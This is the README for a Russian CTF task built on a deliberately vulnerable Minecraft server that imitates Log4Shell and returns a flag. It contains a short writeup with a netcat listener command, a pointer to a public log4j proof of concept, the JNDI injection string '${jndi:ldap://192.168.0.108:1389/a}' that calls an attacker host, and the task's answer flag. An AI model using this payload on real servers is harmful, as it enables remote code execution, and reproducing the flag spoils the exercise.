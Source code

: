 # Minecraft-task

### Разработчики: Елисеев Никита, Малахов Егор

### Контакты(telegram): Никита:@angrydish, Егор:@bumbuker

**Суть таска:**

log4shell без RCE :). На выходе вы получаете флаг, а не консоль. Игрокам можно было бы дать и консоль, но их слишком много
на один сервис, а там еще и RCE :). За основу взято пропатченое paper ядро, где логгер не обрабатывает jdni как призыв 
к действию, зато наш самописный сервак обрабатывает, но выдает не RCE а сразу флаг.

### Запуск:
```
docker compose up --build -d && docker compose logs -f
connect in MC client via tasks.ssl.nsib.ru:25565
```

### Writeup

Эксплоиты сюда долго пишутся, но легко гуглятся, надежда на то, что участники умеют гуглить.

Для примера берётся POC: [https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)
Также нужна java8 определенной версии: jdk-8u20-linux-x64.tar.gz (она распакуется в папку jdk1.8.0_20, если скачали нужную версию с офф сайта джавы)
После чего можем запускать poc.py с флагом ```python3 poc.py --userip <ip атакующего>```

При запуске POC на хосте атакующего поднимается http сервер на 8000 порту (можно поменять, смотри флаги poc.py --help),
а также ldap на порту 1389. Дополнительно можно указать порт netcat (по умолчанию 9001).
После этого также запускаем ```nc -lvnp 9001```, в котором ожидаем флаг.
Если POC работает, сервак майна поднят и не падает и вы смогли зайти на сервер 1.15.2, то вставляете строку, которую
генерит poc.py вида ```${jndi:ldap://192.168.0.108:1389/a}``` в чат в майнкрафте и в консоли с netcat получаете флаг. 
Вывод POC также будет подобен выводу реальной работы эксплоита.

![изображение](https://github.com/user-attachments/assets/cecceb1a-af91-4173-b008-3c578218264a)


### Флаг

```
SSL_CTF{up4l_v574v41_v574v4l_up41}
```
